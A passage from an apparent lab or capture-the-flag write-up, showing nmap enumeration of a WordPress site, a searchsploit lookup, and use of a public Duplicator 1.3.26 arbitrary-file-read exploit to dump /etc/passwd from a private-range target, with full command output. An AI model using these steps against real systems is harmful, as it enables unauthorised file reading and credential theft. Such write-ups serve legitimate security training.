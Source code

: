 ```
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3442 Sep 21  2018 automysqlbackup
```

### Wordpress LFI --> SQL Creds

I ran an `nmap` script against Wordpress and it found this:

```
$ nmap --script http-wordpress-enum -p 80 192.168.243.167
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-17 21:35 +08
Nmap scan report for 192.168.243.167
Host is up (0.22s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-wordpress-enum: 
| Search limited to top 100 themes/plugins
|   plugins
|     akismet
|_    duplicator 1.3.26
```

For some reason `wpscan` doesn't pick up on these. Anyways, this version of Duplicator is vulnerable to an LFI.&#x20;

```
$ searchsploit duplicator 1.3.26
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Wordpress Plugin Duplicator 1.3.26 - Unauthenticated Arbitrary File Read                                                                                  | php/webapps/50420.py
Wordpress Plugin Duplicator 1.3.26 - Unauthenticated Arbitrary File Read (Metasploit)                                                                     | php/webapps/49288.rb
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

It works!

```
$ python3 50420.py http://192.168.243.167 /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
```